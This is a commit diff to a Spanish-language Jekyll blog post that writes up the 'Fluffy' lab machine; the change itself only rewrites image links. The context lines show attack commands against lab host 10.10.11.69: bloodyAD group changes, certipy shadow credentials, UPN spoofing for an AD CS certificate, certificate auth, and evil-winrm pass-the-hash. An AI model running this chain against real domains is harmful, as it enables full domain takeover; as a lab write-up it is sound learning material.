

Before and after one commit to suzunao/suzunao.github.io, a Jekyll site: the page built from _posts/2025-08-18-P01- Fluffy.md, in a window 1280 px wide and 1400 px high, scrolled down 1723 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
rutas png

````diff
--- a/_posts/2025-08-18-P01- Fluffy.md
+++ b/_posts/2025-08-18-P01- Fluffy.md
@@ -69,7 +69,7 @@ bloodyAD --host 10.10.11.69 -d fluffy.htb -u p.agila -p 'prometheusx-303' add gr
 certipy shadow auto -username P.AGILA@fluffy.htb -password 'prometheusx-303' -account ca_svc
 ```
 
-![[163632.png]]
+![Descripción](/assets/img/articulos/P001/163632.png)
 
 ### Enumeración y manipulación de cuentas con Certipy
 
@@ -88,7 +88,7 @@ certipy-ad account -u 'ca_svc' -hashes ':<NTLM_hash>' -dc-ip 10.10.11.69 -user '
 
 - **userPrincipalName**: `administrator@fluffy.htb` , **el UPN fue modificado previamente** y ahora apunta a `administrator`, lo cual es clave en la explotación que veremos en las siguientes capturas.
 
-![[163653.png]]
+![Descripción](/assets/img/articulos/P001/163653.png)
 
 - Modificar la cuenta del administrador (técnica ESC6/ESC7): modificando el atributo `userPrincipalName` del usuario `ca_svc` para que sea  igual al del administrador.
 
@@ -96,7 +96,7 @@ certipy-ad account -u 'ca_svc' -hashes ':<NTLM_hash>' -dc-ip 10.10.11.69 -user '
 certipy-ad account -u 'ca_svc' -hashes ':<NTLM_hash>' -dc-ip 10.10.11.69 -upn 'administrator' -user 'ca_svc' update
 ```
 
-![[ao.png]]
+![Descripción](/assets/img/articulos/P001/ao.png)
 
 ### Solicitud de certificado para el administrador (ESC8) y Autenticación
 
@@ -106,7 +106,7 @@ certipy-ad account -u 'ca_svc' -hashes ':<NTLM_hash>' -dc-ip 10.10.11.69 -upn 'a
 certipy-ad req -u 'ca_svc' -hashes ':<NTLM_hash>' -dc-ip 10.10.11.69 -target 'DC01.fluffy.htb' -ca 'fluffy-DC01-CA' -template 'User'
 ```
 
-![[163710.png]]
+![Descripción](/assets/img/articulos/P001/163710.png)
 
 - Configura correctamente el nombre principal del usuario para usarlo luego en autenticación por certificado
 
@@ -114,7 +114,7 @@ certipy-ad req -u 'ca_svc' -hashes ':<NTLM_hash>' -dc-ip 10.10.11.69 -target 'DC
 certipy-ad account -u 'ca_svc' -hashes ':<NTLM_hash>' -dc-ip 10.10.11.69 -upn 'ca_svc@fluffy.htb' -user 'ca_svc' update
 ```
 
-![[ao1.png]]
+![Descripción](/assets/img/articulos/P001/ao1.png)
 
 - Se autentica con el certificado `.pfx` generado en el paso anterior. Este certificado permite **acceso completo como administrador**.
 
@@ -122,7 +122,7 @@ certipy-ad account -u 'ca_svc' -hashes ':<NTLM_hash>' -dc-ip 10.10.11.69 -upn 'c
 certipy-ad auth -pfx administrator.pfx -username 'administrator' -domain 'fluffy.htb' -dc-ip 10.10.11.69
 ```
 
-![[163731.png]]
+![Descripción](/assets/img/articulos/P001/163731.png)
 
 - Con acceso administrativo, se establece una sesión remota con **Evil-WinRM**, obteniendo control total sobre el sistema Windows objetivo.
 
@@ -130,4 +130,4 @@ certipy-ad auth -pfx administrator.pfx -username 'administrator' -domain 'fluffy
 evil-winrm -i 10.10.11.69 -u administrator -H '<NTLM_hash>'
 ```
 
-![[163759.png]]
+![Descripción](/assets/img/articulos/P001/163759.png)
````
